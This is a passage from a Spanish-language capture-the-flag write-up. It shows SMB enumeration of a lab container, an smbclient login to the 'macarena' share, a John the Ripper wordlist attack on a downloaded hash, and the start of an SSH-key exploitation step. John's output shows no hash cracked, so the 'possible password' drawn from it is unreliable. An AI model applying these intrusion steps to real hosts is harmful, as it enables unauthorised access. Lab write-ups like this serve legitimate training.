 ```shell
        IPC$                                                    NO ACCESS       IPC Service (4e3f25c9a36e server (Samba, Ubuntu))
[*] Closed 1 connections

```

Vemos que nos interesa el directorio de macarena y accedemos con **smbclient**.

```shell

smbclient //172.17.0.2/macarena -U macarena     
Password for [WORKGROUP\macarena]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Feb  4 15:49:24 2025
  ..                                  D        0  Tue Feb  4 15:49:24 2025
  .bashrc                             H     3771  Mon Aug 19 18:18:51 2024
  .cache                             DH        0  Mon Aug 19 18:40:39 2024
  .bash_history                       H        5  Mon Aug 19 19:26:02 2024
  .bash_logout                        H      220  Mon Aug 19 18:18:51 2024
  user.txt                            N       33  Mon Aug 19 18:20:25 2024
  .profile                            H      807  Mon Aug 19 18:18:51 2024

                229727556 blocks of size 1024. 190381376 blocks available
smb: \> get user.txt 
getting file \user.txt of size 33 as user.txt (330000.0 KiloBytes/sec) (average inf KiloBytes/sec)
smb: \> 

```

Vemos un archivo **user.txt** :

```

john --format=Raw-Md5 --wordlist=/usr/share/wordlists/rockyou.txt user.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-02-04 16:05) 0g/s 38765Kp/s 38765Kc/s 38765KC/s  fuckyooh21..*7¡Vamos!
Session completed. 

```

Posible contra -> `fuckyooh21..*7¡Vamos!`

No funciona como contra de ssh, pero tenemos **permisos de escritura en el directorio de macarena**.
# EXPLOTACION

Creamos un par de claves con **ssh-keygen**:

```shell

ssh-keygen -t rsa -b 4096 

```
